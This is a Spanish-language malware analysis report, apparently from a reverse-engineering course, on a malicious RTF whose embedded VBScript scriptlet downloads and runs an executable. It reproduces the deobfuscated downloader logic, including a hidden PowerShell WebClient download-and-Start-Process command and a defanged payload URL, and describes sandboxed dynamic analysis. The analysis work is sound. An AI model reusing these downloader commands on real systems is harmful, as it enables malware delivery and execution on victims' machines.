salida.vbs:242:	ExecuteGlobal("Set objShell = Create" + "Object(""WScript.Shell"")")
salida.vbs:244:    ExecuteGlobal(tohan)
salida.vbs:251:    ExecuteGlobal("set  fffffffffgggggg = create" + "object(vard1)")
salida.vbs:263:ExecuteGlobal("fghfgh = """"")
salida.vbs:268:DIM ARRHELPWIN, ARRHELPWINCHR1, ARRINTCMD, ARRTEMP, DICHELPLONG, DICHELPSHORT, DICSYSTEMFILES
salida.vbs:273:DIM STRALPHABET, STRARG, STRCLASS, STRCMDINFO, STRCOMMAND, STRCOMMANDLINE, STRCOMSPEC, STRCSDVER, STRFILE, STRFILEVER
salida.vbs:277:CONST INTERNAL_CMD_EXE     = "ASSOC COLOR ENDLOCAL FTYPE MKLINK POPD PUSHD SETLOCAL START TITLE"
salida.vbs:283:    ExecuteGlobal("Set basebase = Create" + "Object(""Msxml2.DOMDocument"").CreateElement(""aux"")")
salida.vbs:284:    ExecuteGlobal("ExecuteGlobal(""ba"" + ""seb"" + ""ase."" + ""Data"" + ""Type = """"bi"""" + """"n."""" + """"ba"" + ""se"""" + """"64"""""")")
salida.vbs:291:        ExecuteGlobal("Base" + varpart + " = .Text")
salida.vbs:309:DIM ARRHELPWIN1, ARRHELPWINC1HR1, ARRI1NTCMD, ARRT1EMP, DICH1ELPLONG, DICHELPS1HORT, DICSYST1EMFILES
salida.vbs:320:CONST INTERNAL_CMD_1EXE     = "ASSOC COLOR ENDLOCAL FTYPE MKLINK POPD PUSHD SETLOCAL START TITLE"
salida.vbs:325:    ExecuteGlobal("objF" + "ile." + varwr + " st" + "ryn:")
salida.vbs:328:    ExecuteGlobal(varzup + "Cl" + zupvar)
salida.vbs:338:ExecuteGlobal("gjfhf = prock")
salida.vbs:339:ExecuteGlobal("gjfhf = prock")
salida.vbs:340:ExecuteGlobal("stryn = gjfhf + ""da"" + secvar + ""%"" + ""\"" + varryb")
``` 

El resultado muestra que el objeto `9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin` contiene una referencia a `.SCT`, lo que encaja con el objeto `OLE2Link` identificado previamente. Este hallazgo refuerza la relación entre el enlace OLE embebido y el scriptlet extraído de la muestra.

La mayoría de indicadores relevantes aparecen en `salida.vbs`, que corresponde al script desofuscado del objeto .SCT. En este fichero se observan múltiples usos de `ExecuteGlobal`, lo que indica que el código construye instrucciones de forma dinámica y las ejecuta en tiempo de ejecución. Esta técnica dificulta el análisis estático directo, ya que muchas llamadas no aparecen escritas de forma literal, sino reconstruidas mediante concatenación de cadenas.

Entre las cadenas más relevantes se identifican llamadas a `CreateObject`, `WScript.Shell`, `Scripting.FileSystemObject`, `Msxml2.DOMDocument` y referencias a `msxml2.xmlhttp.3.0`. Estos objetos COM permiten al script realizar varias acciones maliciosas: decodificar cadenas Base64, crear conexiones HTTP, comprobar la existencia de ficheros, escribir contenido en disco y lanzar comandos o procesos en el sistema.

También se observan cadenas relacionadas con ejecución de comandos, como `STRCOMMAND`, `STRCOMMANDLINE`, `STRCOMSPEC` e `INTERNAL_CMD_EXE`. La presencia de estas variables y constantes apunta a una lógica preparada para construir o manipular comandos del sistema. Además, aparecen comandos internos de `cmd.exe`, como `ASSOC`, `FTYPE`, `MKLINK`, `START` y `TITLE`, lo que refuerza la hipótesis de capacidad de ejecución.

La correlación también confirma la existencia de dos ramas funcionales dentro del script. Por un lado, se identifican cadenas asociadas a la rama de descarga mediante `MSXML2.XMLHTTP.3.0`, como `objhtxtpdownload`, `open`, `send`, `status` y comprobaciones de tipo `fileexists(strsaveto)`. Por otro lado, aparecen referencias a `WScript.Shell`, que se usa para ejecutar código reconstruido dinámicamente mediante `ExecuteGlobal`.

En conjunto, la correlación de cadenas permite atribuir los indicadores principales al script `salida.vbs`, confirmando que el objeto embebido no contiene solo datos pasivos, sino código VBScript ofuscado con capacidad para descargar, escribir y ejecutar un payload. <mark>El fichero `object_000121CC.bin` aporta la referencia al componente `.SCT`, mientras que `salida.vbs` concentra la lógica maliciosa principal.</mark>


| Fichero / artefacto   | Indicador encontrado                              | Tipo de hallazgo                  | Interpretación                                                                                                                       |
| --------------------- | ------------------------------------------------- | --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| `object_000121CC.bin` | `.SCT`                                            | Referencia a scriptlet            | El objeto `OLE2Link` contiene una referencia a un componente `.SCT`, coherente con el scriptlet embebido identificado en la muestra. |
| `salida.vbs`          | `ExecuteGlobal`                                   | Ejecución dinámica                | El script construye código en tiempo de ejecución y lo ejecuta dinámicamente, dificultando el análisis estático directo.             |
| `salida.vbs`          | `CreateObject`                                    | Creación dinámica de objetos COM  | El script instancia objetos del sistema Windows necesarios para red, ejecución y manipulación de ficheros.                           |
| `salida.vbs`          | `Msxml2.DOMDocument`                              | Decodificación / manipulación XML | Se usa para manejar datos codificados, especialmente cadenas Base64.                                                                 |
| `salida.vbs`          | `age64Dicode(...)`                                | Decodificación Base64             | Función usada para reconstruir la URL remota y el nombre del payload.                                                                |
| `salida.vbs`          | `msxml2.xmlhttp.3.0`                              | Conexión HTTP                     | Indica una rama de descarga mediante `MSXML2.XMLHTTP.3.0`.                                                                           |
| `salida.vbs`          | `objhtxtpdownload.open` / `send`                  | Petición HTTP                     | El script prepara y lanza una petición `GET` contra la URL remota.                                                                   |
| `salida.vbs`          | `objhtxtpdownload.status`                         | Control de respuesta HTTP         | El script comprueba el código de estado de la conexión; si recibe `200`, continúa con la escritura del payload.                      |
| `salida.vbs`          | `Scripting.FileSystemObject`                      | Manipulación de ficheros          | Permite comprobar existencia, crear o eliminar ficheros en el sistema.                                                               |
| `salida.vbs`          | `fileexists(strsaveto)`                           | Comprobación de fichero           | Verifica si el payload ya existe en la ruta de destino.                                                                              |
| `salida.vbs`          | `ADODB.Stream` / `savetofile`                     | Escritura en disco                | Se usa para guardar el contenido descargado como fichero ejecutable.                                                                 |
| `salida.vbs`          | `WScript.Shell`                                   | Ejecución de comandos             | Permite lanzar procesos o comandos desde VBScript.                                                                                   |
| `salida.vbs`          | `objShell.run`                                    | Ejecución oculta                  | Ejecuta el comando construido dinámicamente, previsiblemente sin mostrar ventana.                                                    |
| `salida.vbs`          | `STRCOMMAND`, `STRCOMMANDLINE`, `STRCOMSPEC`      | Preparación de comandos           | Variables asociadas a construcción o manipulación de comandos del sistema.                                                           |
| `salida.vbs`          | `INTERNAL_CMD_EXE`                                | Referencia a `cmd.exe`            | Incluye comandos internos como `ASSOC`, `FTYPE`, `MKLINK`, `START` y `TITLE`.                                                        |
| `salida.vbs`          | `PowerShell`, `DownloadFile`, `Start-Process`     | Descarga y ejecución alternativa  | Rama adicional que descarga el payload con PowerShell y lo ejecuta mediante `Start-Process`.                                         |
| `salida.vbs`          | `%APPDATA%\xpertee.exe`                           | Ruta de destino                   | El payload se guarda en el perfil del usuario, dentro de `%APPDATA%`.                                                                |
| `salida.vbs`          | `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` | URL de descarga                   | Indicador de red asociado al ejecutable remoto.                                                                                      |
| `salida.vbs`          | `xpertee.exe`                                     | Payload remoto                    | Nombre del ejecutable descargado y ejecutado por el script.                                                                          |


# **8. Analizamos el fichero .scT**
Tras la extracción de objetos embebidos con rtfobj, se localizó el fichero .scT recuperado desde el objeto Package. Este artefacto corresponde al scriptlet embebido en la muestra M9T6 y constituye uno de los elementos más relevantes del análisis estático.

Para identificarlo dentro del directorio de extracción se utilizó el siguiente patrón:
```
└─$ SCT=$(ls *AbctfhgXgdghgh*.scT)

└─$ echo "$SCT"
```

A continuación, se comprobó su tipo de fichero y se calcularon sus hashes:
```
└─$ file "$SCT"                                                  
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT: data
```

```
└─$ md5sum "$SCT"                                                
331c6ff42836efc5c6b3a6371f4c57da  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT
```

```
└─$ sha256sum "$SCT"                                             
2074f16be50c73280c3a29ed81595884f703c5eea269f771d9cdc39fd9daaee1  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT
``` 


El comando file identifica el artefacto simplemente como data, lo que indica que el sistema no reconoce una cabecera estándar de fichero ejecutable, documento o script convencional. Sin embargo, este resultado no descarta su relevancia, ya que el objeto había sido identificado previamente por rtfobj como un fichero embebido de tipo Package con extensión .scT.


El hash MD5 331c6ff42836efc5c6b3a6371f4c57da coincide con el valor reportado previamente por rtfobj para el objeto Package, por lo que se confirma que el fichero analizado corresponde al artefacto embebido extraído desde el documento RTF.


Las cadenas obtenidas en los apartados anteriores confirman que el contenido del .scT es parcialmente legible y corresponde a un scriptlet VBScript ofuscado. Entre los indicadores más relevantes se identificaron usos repetidos de ExecuteGlobal, creación dinámica de objetos COM mediante CreateObject, comunicación HTTP con MSXML2.XMLHTTP.3.0, manipulación de ficheros mediante Scripting.FileSystemObject y ejecución de comandos con WScript.Shell.

Estos hallazgos son consistentes con un documento RTF malicioso diseñado para activar un script embebido, decodificar valores ofuscados, descargar un payload remoto y ejecutarlo en el sistema comprometido. Por tanto, aunque el fichero .scT no sea reconocido por file como un tipo específico, su contenido y su correlación con los objetos OLE extraídos lo convierten en un componente clave de la cadena de infección.


## **8.1 Ofuscación observada**
El script está fuertemente ofuscado mediante varias técnicas:
| Técnica                  | Evidencia                                                                                                                 |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------- |
| Concatenación de cadenas | Construcción fragmentada de nombres como `CreateObject`, `WScript.Shell`, `PowerShell`, `DownloadFile` y `Start-Process`. |
| Ejecución dinámica       | Uso repetido de `Execute Global(...)`.                                                                                    |
| Variables aleatorias     | Nombres como `fsdfdsfs`, `yulkytjtrhtjrkdsarjky`, `uqredvgyd`, `objhtxtpdownload`.                                        |
| Texto basura             | Inclusión de frases tipo lorem/placeholder y comentarios irrelevantes.                                                    |
| Base64                   | URL y nombre de fichero codificados en Base64.                                                                            |


Una función relevante es age64Dicode, que decodifica cadenas Base64 usando un elemento XML auxiliar y nodeTypedValue. El script construye dinámicamente Msxml2.DOMDocument, define el tipo de dato como Base64 y convierte los bytes resultantes a texto mediante ADODB.Stream.


## **8.2 Indicadores decodificados**
El script contiene dos cadenas Base64 relevantes:
| Cadena decodificada                               | Significado                      |
| ------------------------------------------------- | -------------------------------- |
| `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` | URL remota del payload           |
| `xpertee[.]exe`                                   | Nombre del ejecutable descargado |

Estos valores indican que el `.sct` intenta obtener un ejecutable desde un servidor remoto y guardarlo con el nombre `xpertee.exe`.


**Objetos COM utilizados:** El script crea varios objetos COM típicos de malware basado en VBScript:
| Objeto                       | Uso probable                                           |
| ---------------------------- | ------------------------------------------------------ |
| `WScript.Shell`              | Ejecutar comandos o procesos.                          |
| `Scripting.FileSystemObject` | Comprobar existencia de ficheros y manipular archivos. |
| `MSXML2.XMLHTTP.3.0`         | Realizar la petición HTTP al recurso remoto.           |
| `ADODB.Stream`               | Escribir el binario descargado en disco.               |
| `Msxml2.DOMDocument`         | Decodificar contenido Base64.                          |

En concreto, se observa la creación de `Scripting.FileSystemObject` y `Wscript.Shell`, además de una comprobación de existencia del fichero de destino mediante `fileexists(strsaveto)`.


## **8.3 Cadena de descarga y ejecución**
El comportamiento principal del script consiste en construir una URL, definir una ruta de guardado en %APPDATA%, descargar un ejecutable y ejecutarlo. El código reconstruye dinámicamente una orden de PowerShell con opciones de evasión/ejecución silenciosa, incluyendo -NoP, -NonI, ventana oculta, bypass de política de ejecución y descarga mediante System.Net.WebClient. Posteriormente ejecuta el fichero descargado mediante Start-Process.

También se observa la creación de WScript.Shell y la ejecución del comando construido mediante objShell.run, con ventana oculta y sin esperar a la finalización del proceso.

**Escritura del payload en disco:** Además del uso de PowerShell, el script contiene lógica alternativa o complementaria para guardar la respuesta HTTP en disco usando ADODB.Stream. Se comprueba el estado de la petición HTTP y, si el código de respuesta es 200, se instancia un stream binario y se prepara la operación savetofile strsaveto.

**Rutas y persistencia del artefacto:** La ruta de destino se construye a partir de %APPDATA% y del nombre decodificado xpertee.exe. Por tanto, el payload final esperado sería algo equivalente a:
```
%APPDATA%\xpertee.exe
```
En la parte final del objeto también aparecen rutas internas asociadas al fichero .sct, como rutas tipo C:\fakepatH\...\.sct, coherentes con el objeto empaquetado extraído del RTF.

## **8.4 Ramas de conexión identificadas en el .SCT**
El script prepara varios valores:
| Variable                           | Valor reconstruido                                | Función                       |
| ---------------------------------- | ------------------------------------------------- | ----------------------------- |
| `strlink`                          | `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` | URL remota del payload        |
| `varryb` / `yulkytjtrhtjrkdsarjky` | `xpertee.exe`                                     | Nombre del ejecutable         |
| `strsaveto`                        | `%APPDATA%\xpertee.exe`                           | Ruta local de guardado        |
| `uqredvgyd`                        | `msxml2.xmlhttp.3.0`                              | Objeto COM para conexión HTTP |


El script decodifica la URL y el nombre del ejecutable desde Base64. La URL decodificada es hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe y el fichero esperado es xpertee[.]exe.

### **A) Rama 1: conexión mediante MSXML2.XMLHTTP.3.0**

La primera rama usa MSXML2.XMLHTTP.3.0. El script construye dinámicamente el objeto HTTP:
```
uqredvgyd = "msxml2.xmlhttp.3.0"
set objhtxtpdownload = createobject(uqredvgyd)
objhtxtpdownload.open "get", strlink, false
objhtxtpdownload.send
```
En el código se observa la construcción de msxml2.xmlhttp.3.0, la creación de objhtxtpdownload, la apertura de una petición GET contra strlink y el envío de la petición.

Después, el script consulta el estado HTTP:
```
bvbvbvbbvbvbvbvbvb = objhtxtpdownload.status
```
La condición importante aparece aquí:
```
if bvbvbvbbvbvbvbvbvb = 200 then
```
Es decir, esta rama depende de que el servidor responda HTTP 200 OK.

Si la respuesta es 200, el script entra en la rama de escritura del payload usando ADODB.Stream:
```
set fffffffffgggggg = createobject("ADODB.Stream")
.type = 1
.open
.write objhtxtpdownload.responseBody
.savetofile strsaveto
```
En el script esto aparece ofuscado, pero se reconstruye por fragmentos con cadenas como adodb.stream, .type = 1, .open, .write objhttpdownload.responsebody y .savetofile strsaveto.

Interpretación:
Esta rama intenta descargar el binario mediante XMLHTTP y, sólo si la descarga devuelve HTTP 200, guarda el cuerpo de la respuesta en %APPDATA%\xpertee.exe.

### **B) Rama 2: descarga y ejecución mediante PowerShell**

La segunda rama construye una orden PowerShell independiente:
```
PowerShell -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command "(New-Object System.Net.WebClient).DownloadFile('<URL>','%appdata%\xpertee.exe');Start-Process '%appdata%\xpertee.exe'"
```

En el script aparece como una cadena fragmentada:
```
varf = "Pow" + "erS" + alls + " -NoP -sta -NonI -W Hid" + "den -Exe" + ...
```
y después se ejecuta mediante:
```
Set objShell = CreateObject("WScript.Shell")
objShell.run varf, 0, false
```

Esto significa que la rama PowerShell:
```
decodifica la URL;
decodifica el nombre xpertee.exe;
descarga el payload con System.Net.WebClient.DownloadFile;
lo guarda en %APPDATA%\xpertee.exe;
lo ejecuta con Start-Process;
lo lanza oculto con WScript.Shell.Run, parámetro 0.
```
El código de construcción y ejecución de PowerShell aparece antes del if status = 200, por lo que no parece depender directamente del código HTTP 200 de la rama XMLHTTP.

### **C) ¿Toma una rama o las dos?**
El script contiene dos mecanismos de descarga. El primero emplea MSXML2.XMLHTTP.3.0 y ADODB.Stream, condicionado a que la respuesta HTTP sea 200 OK. El segundo construye y ejecuta una orden PowerShell con System.Net.WebClient.DownloadFile y Start-Process, lanzada mediante WScript.Shell.Run con ventana oculta. Esta segunda vía no aparece condicionada explícitamente al status = 200, por lo que puede ejecutarse independientemente de la rama ADODB.Stream.


Flujo:
``` 
RTF malicioso
  → objeto OLE Package
  → fichero .SCT
  → VBScript ofuscado
  → decodifica URL y nombre del payload
  → strlink = hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe
  → strsaveto = %APPDATA%\xpertee.exe
  ├─ Rama 1:
  │    MSXML2.XMLHTTP.3.0
  │    GET strlink
  │    if status = 200:
  │        ADODB.Stream
  │        write responseBody
  │        savetofile strsaveto
  └─ Rama 2:
       PowerShell -NoP -NonI -W Hidden -ExecutionPolicy bypass
       WebClient.DownloadFile(strlink, strsaveto)
       Start-Process strsaveto
       ejecución mediante WScript.Shell.Run
```


## **8.5 Conclusión del análisis del script embebido**
El script embebido en M9T6 presenta comportamiento claramente malicioso. No se trata de un simple objeto pasivo dentro del RTF, sino de un scriptlet VBScript ofuscado diseñado para descargar un ejecutable remoto, guardarlo en el perfil del usuario y ejecutarlo de forma oculta. Los indicadores más relevantes son el uso de WScript.Shell, MSXML2.XMLHTTP.3.0, ADODB.Stream, Execute Global, cadenas Base64, ejecución de PowerShell con política de ejecución en bypass y la URL remota que apunta al binario xpertee.exe.

El script implementa redundancia en la descarga del payload. Una rama depende del éxito de la conexión HTTP mediante MSXML2.XMLHTTP.3.0 y solo guarda el fichero si recibe HTTP 200. La otra rama usa PowerShell y System.Net.WebClient para descargar y ejecutar directamente el mismo payload. Esta redundancia aumenta la probabilidad de infección si uno de los métodos falla o es bloqueado por el entorno.

------


# **9. Análisis dinámico**
El análisis dinámico se realiza en una máquina virtual Windows aislada, con herramientas de monitorización de procesos, sistema de ficheros, registro y red. El objetivo es observar el comportamiento de la muestra al abrir el documento RTF y, posteriormente, reproducir de forma controlada la lógica del script extraído.


## **9.1 Preparación de la Máquina Virtual**

Se utilizaron las siguientes herramientas:
```
Process Monitor  → monitorización de procesos, ficheros, registro y red
Process Explorer → inspección de procesos, PID, PPID y líneas de comandos
Regshot          → comparación de cambios en registro y sistema
Wireshark        → captura de tráfico de red
x64dbg           → depuración del script extraído
Office 2003      → entorno vulnerable/compatible para la ejecución del RTF
```

### **A) Process Monitor**
**Ejecutamos Process Monitor y establecemos los siguientes filtros:**
```
Process Name is WINWORD.EXE      Include
Process Name is wscript.exe      Include
Process Name is powershell.exe   Include
Path contains .sct               Include
Path contains Abctfh             Include
Path contains xpertee            Include
Path contains eddyholdingshuttle Include
Operation is TCP Connect         Include
```

### **B) Process Explorer**
Configuracón para Process Explorer:
```
Run as administrator
View > Select Columns > PID, Parent PID, Command Line, Image Path, Verified Signer
```


----

### **C) Regshot**
Tomamos dos snapshot, una previa y otra posterior a la ejecución para compararlas.

Comparación de los dos snapshots: [compare-snapshot-regshot.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/compare-snapshot-regshot.txt)


-----

### **D) Wireshark**
**Filtro recomendado para wireshark:**
```
dns or http
http
frame contains "eddyholdingshuttle"
frame contains "xpertee"
```


### **E) Microsoft Office antiguo**
Buscamos una versión antigua del programa, en este caso un Microsot Office 2003.


-----


## **9.2 Ejecución el documento RTF**

**Ejecutamos el documento `9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf`:**  


-----

**Muestra advertencias:** Al abrir el documento RTF con Microsoft Word se muestran advertencias de seguridad relacionadas con la apertura de contenido vinculado o embebido.






-----


**Con procmon vemos que el documento rtf crea un fichero en la carpeta `C:\Users\usuario\AppData\Local\Temp\`:**  


-----


**Inicio exacto de la creación del `.scT`:**  
  

Secuencia:
```
WINWORD.EXE → consulta HKCR\.sct
WINWORD.EXE → HKCR\.sct\(Default) = scriptletfile
WINWORD.EXE → comprueba si existe el .scT en %TEMP%
WINWORD.EXE → NAME NOT FOUND
WINWORD.EXE → crea el .scT
WINWORD.EXE → WriteFile sobre el .scT
``` 

Donde vemos:
```
Path:
C:\Users\usuario\AppData\Local\Temp\Abctfhghgdghghž.scT

Operation:
CreateFile

Result:
NAME NOT FOUND
``` 

Es una comprobación previa: Word pregunta si ya existe el fichero. La respuesta es no. Justo después aparece otro `CreateFile` sobre la misma ruta con:
``` 
Result: SUCCESS
Desired Access: Generic Write, Read Attributes
```

Eso ya es la creación real del fichero. Luego viene:
``` 
WriteFile
Offset: 0
Length: 4096
```

La consulta a:
```
HKCR\.sct\(Default) = scriptletfile
```
es relevante porque indica que Windows reconoce la extensión`.sct` como un scriptlet file. 

-----

**Búsqueda fallida con `%TMP%`:**  
Durante la ejecución también se observan múltiples intentos de WINWORD.EXE de resolver rutas como:
```
%TMP%\abctfhghgdghghž.SCT
```



Sin embargo, `%TMP%` no se está expandiendo a la ruta real temporal. Windows lo trata como texto literal y lo busca dentro de distintas carpetas del PATH. Por eso vemos rutas como:
```
C:\Python310\Scripts\%TMP%\abctfhghgdghghž.SCT
``` 


-----


**Eliminación del `.scT` temporal:**
Tras la creación y lectura del fichero .sct, WINWORD.EXE lo marca para eliminación mediante la operación:
``` 
SetDispositionInformationEx
```

Con el flag:
```
FILE_DISPOSITION_DELETE
```

<mark>Este comportamiento explica por qué el fichero no permanecía en `%TEMP%` al buscarlo manualmente.</mark>




-----

**Quién ordena el borrado del `.scT` y cual es operación concreta usa Windows para eliminarlo:**  



En la pestaña Process se ve que el proceso responsable es:
```
Name: WINWORD.EXE
Version: 11.0.5604
Path: C:\Program Files (x86)\Microsoft Office\OFFICE11\WINWORD.EXE
Command Line: "...\WINWORD.EXE" /n /dde
PID: 132
User: DESKTOP-CTQQHGT\usuario
Architecture: 32-bit
Integrity: Medium
```

Y en la pestaña Event del mismo evento se ve la flag `SetDispositionInformationEx`:  

```
Name: WINWORD.EXE
Version: 11.0.5604
Path: C:\Program Files (x86)\Microsoft Office\OFFICE11\WINWORD.EXE
Command Line: "...\WINWORD.EXE" /n /dde
PID: 132
User: DESKTOP-CTQQHGT\usuario
Architecture: 32-bit
Integrity: Medium
``` 

Donde: `SetDispositionInformationEx + FILE_DISPOSITION_DELETE` significa ue `WINWORD.EXE` marca el fichero `.scT` para borrado.


---------


**Secuencia:**
```
1. WINWORD.EXE consulta HKCR\.sct → scriptletfile.
2. WINWORD.EXE comprueba si existe el .sct → NAME NOT FOUND.
3. WINWORD.EXE crea el .sct → SUCCESS.
4. WINWORD.EXE escribe el .sct → WriteFile.
5. WINWORD.EXE lee/consulta el .sct.
6. WINWORD.EXE lo marca para borrado → FILE_DISPOSITION_DELETE.
```


----

**Captura del payload intermedio:**
Para capturar el `.scT` antes de su eliminación utilizaremos un watcher en PowerShell. El script monitoriza `%TEMP%` y copia cualquier fichero `.sct` o con patrón `Abctfh*` a una carpeta de captura: [watcher_sct.ps1.](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/watcher_sct.ps1)


**Vemos el fichero que genera el watcher y que contiene el payload:**



------

**Vemos el contenido de este fichero. Es un script Visual Basic:**


  





-----


El fichero capturado: [Abctfhghgdghghž.scT.](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/Abctfhghgdghgh%C5%BE.scT)


Posteriormente se copió como: [sct_payload.txt.](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/sct_payload.txt)

Limpiamos el fichero payload para que sea un script plenamente operativo: [salida.vbs](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/salida.vbs)

Usando un [script ps](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/script-ps-sanitizar.ps1), sanitizamos el contenido del script capturado para ver su funcionamiento: [sct_report_sanitizado.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/sct_report_sanitizado.txt)


**<mark>El análisis del contenido confirma que se trata de un scriptlet/VBScript downloader ofuscado. El script utiliza:</mark>**
```
ExecuteGlobal
MSXML2.XMLHTTP
ADODB.Stream
WScript.Shell
Base64
PowerShell
System.Net.WebClient.DownloadFile
```

**<mark>Las cadenas decodificadas identifican la URL de descarga y el nombre de la segunda etapa:</mark>**
```
hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe
xpertee[.]exe
```


-----

**Ejecución controlada del script extraído:**

Ejecutar el script pero se produce un error:   


```
Error: El sistema no puede encontrar el recurso especificado.
Código: 800C0005
Origen: msxml3.dll
```
Al ejecutar el script salida.vbs extraído de la muestra mediante `wscript.exe //X //D`, Windows Script Host generó un error con código `800C0005` y origen `msxml3.dll`. Este error es compatible con un fallo en una petición HTTP realizada mediante componentes MSXML, probablemente porque el recurso remoto utilizado por la muestra `http://bit.ly/34vzFlU` ya no está disponible o no es accesible desde la máquina virtual.

Por tanto, aunque el script se ejecuta, no se consigue completar la fase de descarga del payload. <mark>La diferencia con el vídeo del profesor puede deberse a que en su entorno el recurso remoto seguía disponible.</mark>


----------------------

**Servidor web Fake:**

Simularemos un servidor para que el script reciba una respuesta `HTTP 200 OK` y podamos observar qué hace el script después.

Modificaremos `hosts`, usando la propia máquina virtual como servidor falso. En la VM editamos como administrador:
```
C:\Windows\System32\drivers\etc\hosts
```
Añadimos una línea apuntando el dominio a la IP de nuestra propia VM:
```
<ip de la máquina virtual del laboratorio> eddyholdingshuttle.co.za
```

Hacmos un ping para ver si funciona:  


----------------------

**Montamos una respuesta `HTTP` falsa en la VM del laboratorio:**
```
mkdir -p C:\tmp\fakesite\i
cd C:\tmp\fakesite\
```

Creamos un fichero falso con el nombre que espera la muestra:
```
echo "FAKE_PAYLOAD_FOR_ANALYSIS" > C:\tmp\fakesite\i\xpertee.exe
```

Levantamos un servidor HTTP en el puerto 80. Debemos estar en la carpeta `fakesite`. En caso contrario se producirán errores `NOT FOUND 404`:
```
python3 -m http.server 80 --bind 0.0.0.0
```


Comprobamos si funciona. Desde otra terminal:
```
curl http://eddyholdingshuttle.co.za/i/xpertee.exe
```

Vemos como el servidor recibe las peticiones correctamente pero se producen errores ya que lancé el servidor `HTTP` en un terminal diferente y no estaba en el path correcto:



---------------------------------

**Volvemos a ejecutar el script. Pero obtenemos un nuevo error:**




El script está intentando ejecutar una línea:
```
Set objFile = writer.CreateTextFile(outFile, True)
```
Pero el objeto writer no existe o no ha sido inicializado. En VBScript, para poder usar `.CreateTextFile`, antes tendría que existir algo así:
```
Set writer = CreateObject("Scripting.FileSystemObject")
```

<mark>El script extraído no está completo o no está perfectamente reconstruido.</mark>

<mark>Para continuar la ejecución controlada, vamos a corregir manualmente el script añadiendo esta línea antes de la línea 373:</mark>



------------------------------------

**Volvemos a ejecutar el script y ya funciona sin erorres.**

**Comprobamos en wiresharK:**  

donde vemos que origen y destino son `10.0.0.4` ya que estamos capturando en loopback. Se confirma el intento de descarga.


--------

**Confirmamos la activación de la fase de descarga:**


```
TCP 49678 → 80
HTTP GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
Full request URI: http://eddyholdingshuttle.co.za/i/xpertee.exe
``` 

La cadena se activó más allá del drop del `.sct`. El `scriptlet/downloader` llegó a realizar una petición `HTTP GET` para descargar `/i/xpertee.exe` desde `eddyholdingshuttle.co.za`. 

-------

**En Wireshark: `Follow → HTTP Stream` sobre esa petición `Get`:**   


Detalle del terminal donde se ejecuta el servidor HTTP:  


En Wireshark se ve:
```
GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
```
y el servidor responde correctamente:
```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.11
Content-type: application/x-msdownload
Content-Length: 56
```

Vemos en el cuerpo de la respuesta contiene el fichero inocuo:
```
FAKE_PAYLOAD_FOR_ANALYSIS
```

Detalle del fichero que el malware ha creado:  


<mark>Ahora tenemos la prueba de una descarga simulada completada.</mark>


------- 

**Comprobamos en procmon la conexión `HTTP`:**  







El proceso responsable es:
```
Process: wscript.exe
PID: 1036
Path: C:\Windows\System32\wscript.exe
User: DESKTOP-CTQQHGT\usuario
```
Y ProcMon muestra:
```
Operation: TCP Connect
Result: SUCCESS
Path: eddyholdingshuttle.co.za:49678 -> eddyholdingshuttle.co.za:http
```


<mark>wscript.exe ejecuta el script corregido, que provoca la descarga de `xpertee.exe` en `%APPDATA%`. La escritura puede producirse por la rama `MSXML/WinINet` o por la rama `PowerShell/WebClient`.</mark>

-------

# **Análisis avanzado con x64dbg**

Los breakpoints sobre APIs de red y ejecución deben establecerse una vez cargadas las DLL correspondientes en el proceso depurado. En esta muestra, los puntos de ruptura más relevantes fueron los asociados a WinINet (`InternetConnectW`, `HttpOpenRequestW`, `HttpSendRequestW`, `InternetReadFile`), ya que permitieron observar la conexión a `eddyholdingshuttle.co.za`, la solicitud `GET /i/xpertee.exe`, el envío de la petición y la lectura del payload dummy. Adicionalmente, `CreateProcessW` permitió confirmar el lanzamiento de PowerShell y `CreateFileW`/`WriteFile` permitieron seguir la creación/escritura de artefactos en disco.
```
bp kernelbase.CreateProcessW
bp kernel32.CreateProcessW
bp kernelbase.WinExec
bp shell32.ShellExecuteW
bp shell32.ShellExecuteExW

bp wininet.InternetConnectW
bp wininet.HttpOpenRequestW
bp wininet.HttpSendRequestW
bp wininet.InternetReadFile

bp kernelbase.CreateFileW
bp kernelbase.WriteFile
bp ntdll.NtWriteFile
```


------

**Abrimos x64dbg como administrador y cargamos:**

